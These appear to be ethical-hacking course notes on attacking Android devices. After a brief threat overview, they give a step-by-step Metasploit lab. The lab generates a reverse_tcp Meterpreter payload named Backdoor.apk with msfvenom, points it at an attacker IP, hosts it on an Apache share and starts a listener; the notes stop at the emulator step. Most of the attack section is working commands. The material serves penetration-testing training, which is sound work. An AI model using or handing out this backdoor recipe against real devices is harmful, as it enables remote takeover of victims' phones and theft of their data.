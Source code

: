 - The growing adoption of smartphones and tablets, supporting extensive functionalities, makes Android the leading mobile OS due to its open application platform. However, Android's popularity comes with vulnerabilities, as not all users keep their OS and apps updated. This laxity provides attackers opportunities to exploit weaknesses and execute various attacks, compromising valuable data on victims' devices.

- With the prevalence of bring your own device (BYOD) policies, mobile devices have become prime targets. Attackers exploit vulnerabilities at the device and network layers, data centers, or a combination of these. Ethical hackers and pen testers must be proficient in hacking tools, exploits, and payloads to assess the security infrastructure of network-connected mobile devices.


**Overview of Hacking Android Platforms**

- Android, developed by Google, is a comprehensive software environment for mobile devices, encompassing an OS, middleware, and key applications. Its Linux-based OS is tailored for smartphones and tablets, featuring a stack of software components categorized into six sections and five layers.

- The surge in Android users makes these devices prime targets for hackers. Various hacking tools are employed to discover and exploit vulnerabilities, leading to attacks like DOS, Man-in-the-Disk, and Spear phone attacks.

#### Hack an Android Device by Creating Binary Payload

- Attackers leverage tools like Metasploit to create binary payloads, sent to the target system to gain control. Metasploit, a modular penetration testing platform, allows writing, testing, and executing exploit code. Meterpreter, a Metasploit payload, provides an interactive shell for exploring targets and executing code.


1. **Start Database Service:**
   - Start the PostgreSQL service: `service postgresql start`.

2. **Generate Binary Payload:**
   - Use Metasploit to generate a binary payload:
    ```bash
    msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Backdoor.apk
    ```

3. **Set Up Shared Folder:**
   - Create a shared folder: `mkdir /var/www/html/share`.
   - Set permissions: `chmod -R 755 /var/www/html/share`.
   - Start Apache web server: `service apache2 start`.
   - Copy Backdoor.apk: `cp Backdoor.apk /var/www/html/share/`.

4. **Launch Metasploit:**
   - Launch Metasploit console: `msfconsole`.
   - Inside msfconsole:
     - Set payload: `set payload android/meterpreter/reverse_tcp`.
     - Set LHOST: `set LHOST 10.10.1.13`.
     - Show options: `show options`.
     - Exploit as a background job: `exploit -j -z`.

5. **Switch to Android Emulator:**
   - Restart the Android emulator if non-responsive.
